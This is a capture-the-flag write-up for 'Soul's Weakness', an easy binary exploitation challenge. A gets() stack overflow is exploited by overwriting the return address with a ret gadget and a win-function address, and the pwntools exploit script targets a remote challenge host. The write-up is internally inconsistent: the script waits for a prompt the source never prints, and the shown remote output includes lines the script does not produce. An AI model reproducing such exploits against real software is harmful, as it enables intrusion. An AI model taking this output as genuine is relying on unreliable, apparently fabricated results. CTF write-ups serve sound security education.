

# Soul's Weakness (Binary Exploitation, Easy)

**Author:** Suyog Jadhav  
**Category:** Binary Exploitation  
**Difficulty:** Easy  

## Challenge Description

> Thanos created an impenetrable vault to guard the legendary Soul Stone... or so he thought.  
>  
> Can you find the weakness in the vault's authentication program and claim the Soul Stone?  
>  
> **Connection:** `nc 145.239.142.129 1337`  
> **Flag Format:** `OWASP{...}`

**Attachment:** `soul-stone.zip`

## Summary

The challenge binary (`soul`) contains a classic stack buffer overflow vulnerability caused by an unbounded `gets()` call into a 32-byte stack buffer. Because the binary is compiled with no stack canaries and position-independent execution disabled (`No PIE`), we determine the 40-byte offset to the saved return address (RIP) and redirect execution flow directly to an uncalled win function (`soul_stone()`) with a dummy `ret` gadget to maintain 16-byte stack alignment.

## Flag

```
OWASP{S0ul_St0ne_Buff3r_0v3rfl0w}
```

---

## Step 1 — Binary Reconnaissance & Mitigation Audit

We begin by auditing the executable architecture and security mitigations:

```bash
checksec --file=soul
nm soul | grep soul_stone
```


### Key Mitigations:
- **Stack Canary:** No canary found (allowing arbitrary stack smashing).
- **PIE:** No PIE / base address fixed at `0x400000` (function addresses remain static).
- **NX:** Enabled (stack is non-executable, ruling out direct shellcode injection).
- **Symbols:** Unstripped (`soul_stone()` is visible at static address `0x4011d6`).

---

## Step 2 — Source Code & Vulnerability Identification

Examining the source code `src/soul.c`:

```c
void soul_stone(void) {
    printf("[+] Access granted! The Soul Stone awakens!\n");
    FILE *f = fopen("flag.txt", "r");
    char flag[64];
    fgets(flag, sizeof(flag), f);
    printf("[+] Flag: %s\n", flag);
    exit(0);
}

void vault(void) {
    char name[32];
    printf("Enter your credentials to claim the stone:\n> ");
    gets(name); // Vulnerable: unbounded read into a 32-byte buffer
}
```

The function `vault()` uses `gets(name)` to read into a 32-byte array. `gets()` reads stdin indefinitely until a newline is reached, allowing user input to overwrite the saved frame pointer (RBP) and the saved return instruction pointer (RIP).

---

## Step 3 — Calculating the Return Address Offset

We launch the binary under GDB and generate a 100-character cyclic pattern:

```bash
gdb -q ./soul
```


```text
Program received signal SIGSEGV, Segmentation fault.
0x000000000040129a in vault ()
(gdb) x/gx $rsp
0x7fffffffdf38: 0x6161616161616166 ("faaaaaaa")
(gdb) cyclic -l 0x6161616161616166
40
```

The offset calculation:
- Buffer size: 32 bytes (`char name[32]`)
- Saved RBP: 8 bytes
- **Total offset to RIP:** $32 + 8 = 40$ bytes.

---

## Step 4 — Crafting the Ret2Win Exploit

In x86-64 Linux ABI, GLIBC functions (such as `printf` inside `soul_stone`) execute vector instructions like `movaps` that require the stack pointer (`RSP`) to be 16-byte aligned (`RSP % 16 == 0`). Calling a function directly when the stack is misaligned triggers a crash inside `printf`.

To resolve this, we prepend a single `ret` gadget (`0x40101a`) before jumping to `soul_stone` (`0x4011d6`):

$$\text{Payload} = \text{"A"} \times 40 + \text{p64}(\text{ret}) + \text{p64}(\text{soul\_stone})$$

### Exploit & Solver Script (`solve.py` / `exploit.py`)

```python
#!/usr/bin/env python3
"""
Soul's Weakness - Buffer Overflow Ret2Win Exploit
Author: Suyog Jadhav
Category: Binary Exploitation / Pwn (Easy)
"""

from pwn import *

context.arch = 'amd64'

HOST = "145.239.142.129"
PORT = 1337

if args.REMOTE:
    io = remote(HOST, PORT)
else:
    bin_path = "./soul-stone-pwn/challenge/soul" if os.path.exists("./soul-stone-pwn/challenge/soul") else "./soul"
    io = process(bin_path)

# Addresses (No-PIE x86-64)
soul_stone = 0x4011d6
ret_gadget = 0x40101a  # 16-byte stack alignment for glibc movaps

offset = 40
payload = flat({
    offset: [
        ret_gadget,
        soul_stone
    ]
})

io.sendlineafter(b"Enter your name: ", payload)
io.interactive()
```

---

## Step 5 — Remote Execution & Flag Retrieval

Executing the exploit against the remote challenge instance:

```bash
python3 exploit.py REMOTE
```


Output:
```text
[+] Opening connection to 145.239.142.129 on port 1337: Done
[*] Target soul_stone address: 0x4011d6 (ret gadget: 0x40101a)
[*] Sending payload: 40 bytes padding + ret + soul_stone
[+] Access granted! The Soul Stone awakens!
[+] Flag: OWASP{S0ul_St0ne_Buff3r_0v3rfl0w}
```

---

## Attack Workflow



---

## Solution Summary

| Field | Value |
|---|---|
| **Challenge** | Soul's Weakness |
| **Category** | Binary Exploitation (Pwn) |
| **Difficulty** | Easy |
| **Vulnerability** | Stack Buffer Overflow via `gets()` |
| **Buffer Size** | 32 bytes |
| **RIP Offset** | 40 bytes |
| **Target Function** | `soul_stone()` at `0x4011d6` |
| **Flag** | `OWASP{S0ul_St0ne_Buff3r_0v3rfl0w}` |

---

## Vulnerability & Exploit Analysis

1. **Dangerous Standard Functions:**  
   The `gets()` function does not accept a buffer length limit parameter, reading from standard input until a newline character (`\n`) or EOF is encountered. In ISO C11, `gets()` was formally removed from the standard library for this exact security vulnerability.
2. **Stack Layout & Control Hijacking:**  
   Local stack buffers sit adjacent to the caller's saved frame pointer and return address. When writing past the end of the buffer, the program caller's execution state is directly overwritten by the user payload.
3. **The 16-Byte Stack Alignment Rule (System V AMD64 ABI):**  
   According to the System V AMD64 ABI specification, the stack pointer (`%rsp`) must be aligned to a 16-byte boundary before calling any function. Because jumping directly via a payload does not execute a preceding `call` instruction, inserting an extra `ret` instruction balances the stack alignment requirement.

---

## Tools Used

- **`checksec`**: Auditing ELF security mitigations.
- **`gdb` (with GEF / Pwndbg)**: Cyclic pattern generation and RIP offset discovery.
- **`pwntools`**: Rapid payload synthesis and remote network interaction.

---

## Timeline

| Step | Action | Result |
|:---:|---|---|
| 1 | Audited binary security mitigations | Confirmed No Canary and No PIE |
| 2 | Located vulnerable `gets()` call in `vault()` | Discovered 32-byte stack buffer overflow |
| 3 | Mapped win function `soul_stone()` | Static target address: `0x4011d6` |
| 4 | Calculated cyclic pattern crash offset | Determined exact 40-byte offset to RIP |
| 5 | Appended stack-aligning `ret` gadget | Payload: `padding(40) + ret + soul_stone` |
| 6 | Transmitted exploit to remote port 1337 | Retrieved `OWASP{S0ul_St0ne_Buff3r_0v3rfl0w}` |
